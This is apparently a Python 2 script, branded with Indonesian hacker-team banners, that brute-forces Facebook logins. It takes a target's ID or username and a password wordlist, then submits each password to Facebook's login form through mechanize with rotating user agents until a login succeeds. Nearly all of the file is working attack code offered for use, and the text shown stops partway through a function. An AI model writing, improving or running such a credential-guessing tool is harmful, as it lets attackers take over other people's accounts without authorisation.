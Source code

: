 #!usr
# -*- coding: UTF-8 -*-
# Mod by: MR.K7C8NG
# team: life of programmer


import os
import sys
import time
import random
import cookielib
import mechanize

wd = "\033[90;1m" # dark
GL = "\033[96;1m" # Blue aqua
BB = "\033[34;1m" # Blue light
YY = "\033[33;1m" # Yellow light
GG = "\033[32;1m" # Green light
WW = "\033[0;1m"  # White light
RR = "\033[31;1m" # Red light
CC = "\033[36;1m" # Cyan light
B = "\033[34m"    # Blue
Y = "\033[33;1m"    # Yellow
G = "\033[32m"    # Green
W = "\033[0;1m"     # White
R = "\033[31m"    # Red
C = "\033[36;1m"    # Cyan

def runntxt(s):
        for noobs in s + '\n':
                sys.stdout.write(noobs)
                sys.stdout.flush()
                time.sleep(10. / 2100)


def banner():
    os.system('clear')
    print " "
    runntxt(GL+"              Assalamu'@laikum. ^_^")
    runntxt(WW+"   ..................  ANDA MENCOBA MENGHUBUNGI")
    runntxt(WW+"     ....       MR.K7C8NG")
    runntxt(GL+"                   BODO AMAT CUK")
    runntxt(GG+"     ..........     MANDI DULU SANA")
    runntxt(Y+"    ............       DILARANG CO*I")
    runntxt(GG+"           INGAT COK ")
    time.sleep(1.5)
    print GG+"  √=============================================√"
    print GL+"  |••••••   NEW TOOLS HACK FACEBOOK BF.   ••••••|"
    print GG+"  √=============================================√"
    print WW+"  |            MOD BY: MR.K7C8NG             |"
    print GL+"  |       Berdoa Dulu Sebelum Menggunakan       |"
    print WW+"  |        TEAM : InDoNeSiA CYBER ErRoR SyStEm            |"
    print Y+"  |             INSTAGRAM: pranata_pasha              |"
    print GL+"  |---------------------------------------------|"
    print GL+"  |        LIFE OF PROGRAMMER [ L.O.P ]         |"
    print GL+"  |---------------------------------------------|"
    print GG+"  √=============================================√"
    print GL+"  |•••••••••   HACK FACEBOOK MAS ^_^   •••••••••|"
    print GG+"  √=============================================√"

banner()

print wd+"         gunakan dengan bijak cok "
print GG+"╭────\033[91m[\033[96m Masukkan ID\033[95m / \033[96mUsername Target\033[91m ] "
email_target = str(raw_input(GL+"\033[92m╰────➲\033[93m  "))
print " "
print "\033[92m╭────\033[91m[ \033[96mMasukkan File Wordlist \033[95m( pass.txt ) \033[91;1m]"
password_list = str(raw_input(GG+"╰────➲\033[93m "))
login = 'https://www.facebook.com/login.php?login_attempt=1'
useragents = [('Mozilla/5.0 (X11; Linux x86_64; rv:45.0) Gecko/20100101 Firefox/45.0','Mozilla/5.0 (X11; U; Linux i686; en-US; rv:1.9.0.1) Geck')]
# useragents = [('Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/60.0.3112.113 Safari/537.36','Mozilla/5.0 (Windows NT 6.1; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/60.0.3112.90 Safari/537.36','Mozilla/5.0 (Windows NT 5.1; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/60.0.3112.90 Safari/537.36','Mozilla/5.0 (Windows NT 6.2; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/60.0.3112.90 Safari/537.36','Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/44.0.2403.157 Safari/537.36','Mozilla/5.0 (Windows NT 6.3; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/60.0.3112.113 Safari/537.36','Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/57.0.2987.133 Safari/537.36','Mozilla/5.0 (Windows NT 6.1; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/57.0.2987.133 Safari/537.36','Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/55.0.2883.87 Safari/537.36','Mozilla/5.0 (Windows NT 6.1; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/55.0.2883.87 Safari/537.36',)]

def pil():
                print GG+" "
                g = str(raw_input("[?] Hack Fb lagi..\033[93;1m[y/n]: "))
                if g == 'y' or g == 'Y':
                    os.system('python2 brute.py')
                elif g == 'n' or g == 'N':
                    print wd+"Keluar dari program..."
                    sys.exit()
                else:
                    print RR+"Pilih yang bener cuk..."
                    pil()

def edit_wordlist():

        print GG+" "
        ed = str(raw_input("[?] Edit wordlist cuk.? \033[96;1m[y/n]: "))
        if ed == 'y' or ed == 'Y':
                os.system('nano '+password_list)
                pil()
        elif ed == 'n' or ed == 'N':
                print wd+"Keluar Dari Program..."
                sys.exit()

        else:
                print RR+"Pilih yg bener cuk..."
                edit_wordlist()

def main():
        global noobs
        noobs = mechanize.Browser()
        cj = cookielib.LWPCookieJar()
        noobs.set_handle_robots(False)
        noobs.set_handle_redirect(True)
        noobs.set_cookiejar(cj)
        noobs.set_handle_equiv(True)
        noobs.set_handle_referer(True)
        noobs.set_handle_refresh(mechanize._http.HTTPRefreshProcessor(), max_time=1)
        runn_noobs()
        life()
        print " "
        print RR+" wordlist tidak ada yg cocok..."
        print " "
def iqbalz(iqbalz_password):
  try:
 	sys.stdout.write(GG+"\n[\033[91m+\033[92m]\033[91;1m [\033[97m"+email_target+"\033[91m]\033[90m Mencoba ==> \033[91m[\033[90;1m"+iqbalz_password)
	sys.stdout.flush()
	noobs.addheaders = [('User-agent', random.choice(useragents))]
	site = noobs.open(login)
	noobs.select_form(nr = 0)
	noobs.form['email'] = email_target
	noobs.form['pass'] = iqbalz_password
	tom = noobs.submit()
	mask = tom.geturl()
	if mask != login and (not 'login_attempt' in mask):
                        print " "
			print ("\033[96m                S U C C E S S")
			print "          P A S S W O R D  F I N D "
                  	print RR+"+-------------------------------------------+"
	         	print (RR+"#\033[97m ID / Email Target:\033[92m {}").format(email_target)
        	        print (RR+"#\033[97m Password Target:\033[92m {}").format(iqbalz_password)
        	        print " "
        	        raw_input(WW+"TEKAN ENTER UNTUK KELUAR...")
			sys.exit(1)
  
  
  except KeyboardInterrupt:
      print wd+"Stop......."
      edit_wordlist()
      sys.exit()    	    
def life():
	global iqbalz_password
	password_nob = open(password_list, "r")
	for iqbalz_password in password_nob:
		password_nob = iqbalz_password.replace("\n","")
		iqbalz(iqbalz_password)		

def runn_noobs():
         global password_list

         lop = GG+"""
